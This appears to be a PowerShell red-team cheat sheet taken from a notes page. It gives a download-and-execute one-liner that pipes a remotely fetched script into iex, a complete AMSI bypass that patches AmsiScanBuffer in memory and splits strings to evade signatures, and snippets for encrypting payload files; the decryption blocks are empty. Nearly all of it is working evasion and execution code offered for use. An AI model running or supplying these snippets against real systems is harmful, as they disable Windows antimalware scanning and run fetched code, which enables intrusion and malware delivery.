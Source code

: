 # In case of issues with TLS
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
```

# Download a script from an HTTP server
```powershell
iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/microsoft/ExPerfAnalyzer/main/ExPerfAnalyzer.ps1')
```

# Test on open/close port
```powershell
Test-NetConnection -Port 389 -InformationLevel "Detailed" <ip> 
```
- [Test-NetConnection](https://docs.microsoft.com/en-us/powershell/module/nettcpip/test-netconnection)

# Patching amsi.dll AmsiScanBuffer by rasta-mouse
```powershell
$Win32 = @"

using System;
using System.Runtime.InteropServices;

public class Win32 {

    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("am" + "si.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "Amsi" + "Scan" + "Buffer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```
- [AMSI.fail](https://amsi.fail/)
- [Amsi-Bypass-Powershell](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)
- [A Detailed Guide on AMSI Bypass](https://www.hackingarticles.in/a-detailed-guide-on-amsi-bypass/)
- [Small modification to Rastemouse's AmsiScanBuffer bypass to use bytes.](https://gist.github.com/FatRodzianko/c8a76537b5a87b850c7d158728717998)


# Payload encryption/decryption
## Alternative 1
### Encryption
```powershell
$File="C:\Windows\System32\calc.exe"
$Password="LCSE39VzqmSL8fqE"

[Byte[]]$Bytes = [System.IO.File]::ReadAllBytes($File)
$B64String = [String][Convert]::ToBase64String($Bytes)

$SecureStringData = ConvertTo-SecureString $B64String -AsPlainText -Force
$SecureStringPwd = ConvertTo-SecureString $Password -AsPlainText -Force

$Encrypted = ConvertFrom-SecureString -SecureString $SecureStringData -SecureKey $SecureStringPwd

$Encrypted | Out-File -FilePath "C:\calc.exe.encrypted"
```
### Decryption
```powershell

```

## Alternative 2
### Encryption
```powershell
$File="C:\Windows\System32\calc.exe"
$Password="LCSE39VzqmSL8fqE"

[Byte[]]$Bytes = [System.IO.File]::ReadAllBytes($File)
$B64String = [String][Convert]::ToBase64String($Bytes)

$SecureStringData = ConvertTo-SecureString $B64String -AsPlainText -Force

$AESKey = New-Object Byte[] 32
[Security.Cryptography.RNGCryptoServiceProvider]::Create().GetBytes($AESKey)
$Encrypted = ConvertFrom-SecureString -SecureString $SecureStringData -key $AESKey

$Encrypted | Out-File -FilePath "C:\calc.exe.encrypted"
[String][Convert]::ToBase64String($AESKey)
```
### Decryption
```powershell

```
